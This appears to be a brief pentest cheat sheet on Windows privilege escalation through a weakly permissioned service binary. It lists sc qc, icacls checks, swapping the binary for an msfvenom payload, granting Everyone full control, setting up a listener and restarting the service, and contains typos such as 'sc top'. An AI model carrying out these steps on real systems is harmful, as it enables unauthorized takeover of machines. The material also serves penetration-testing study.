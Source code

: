 # Example:

### 1: Query for a service: sc qc SERVICE

#### Services configurations are stored in: HKLM\SYSTEM\CurrentControlSet\Services\

### 2: Check permissions with icacls:

#### If (M) is persent, we can overwrite it with our payload and service will execute with the privileges of the user account.

### 3: msfvenom payload

### 4: Replace original service with payload: 

#### move ORIGINAL ORIGINAL.BKP

#### move /location/of/payload FAKE_SERVICE

### 5: icacls FAKE_SERVICE /grant Everyone:F

### 6: Setup listener

### 7: Restart Service: sc top, then sc start

### *In powershell, use sc.exe to control services
